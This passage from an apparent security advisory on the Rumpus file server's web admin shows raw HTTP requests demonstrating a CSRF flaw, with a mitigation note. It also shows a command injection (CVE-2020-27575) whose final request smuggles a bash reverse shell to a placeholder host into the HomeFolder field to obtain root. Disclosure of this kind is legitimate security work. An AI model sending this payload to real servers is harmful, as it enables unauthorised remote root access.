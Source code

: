 The form submission sets the user's settings:

{% highlight html %}
POST /RAPR/DefineUsersSet.html HTTP/1.1
Host: X.X.X.X
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 718
Origin: null
Connection: close
Cookie: UserAccount=_UwtsA9IFxh91RR; SessionID=1143479735
Upgrade-Insecure-Requests: 1

Username=csrf&AcctPswd=csrf&HomeFolder=&PermLogin=on&PermLogin=off&PermListings=on&PermListings=off&PermDownload=on&PermDownload=off&PermUpload=on&PermUpload=off&PermDeleteFiles=on&PermDeleteFiles=off&PermCreateFolders=on&PermCreateFolders=off&PermDeleteFolders=on&PermDeleteFolders=off&EMailAddress=&EMailPassword=&PhoneNumber=&Notes=&Welcome=&UploadCenter=NONE&UploadNotice1=NONE&UploadNotice2=NONE&DownloadNotice=NONE&AlternateAppearance=Default&DiskSpace=0&LimitSpaceEnabled=off&LimitConValue=4&LimitConEnabled=off&LimitUploadRateValue=16&LimitUploadRateEnabled=off&LimitDownloadRateValue=16&LimitDownloadRateEnabled=off&SeeInvisibleFiles=off&DeleteExpiredFiles=off&AccountType=Permanent&ExpDays=NA&SaveUserAction=
{% endhighlight %}

{% highlight html %}
HTTP/1.1 200 OK
Server: Rumpus
Date: Wed, 03 Feb 2021 15:34:54 GMT
Content-type: text/html; charset=UTF-8
Content-length: 73
Connection: close
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block

<html><body onLoad="javascript:parent.EditComplete('OK');"></body></html>
{% endhighlight %}

A possible mitigation is to protect it by using a POST method with CSRF tokens and an origin check. The edit account form already uses the POST method but no CSRF tokens or an origin check.

# Command Injection (CVE-2020-27575)

The command injection is in the HomeFolder parameter in the edit account form. Sending the following POST request to the server from an administrative account will result in a root shell.

{% highlight html %}
POST /RAPR/DefineUsersSet.html HTTP/1.1
Host: X.X.X.X
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 72
Origin: http://X.X.X.X
Connection: close
Referer: http://X.X.X.X/
Cookie: UserAccount=_UwtsA9IFxh91RR; SessionID=1143479735

Username=user&HomeFolder=/'`bash>%26/dev/tcp/Y.Y.Y.Y/4444+0>%261`/
{% endhighlight %}
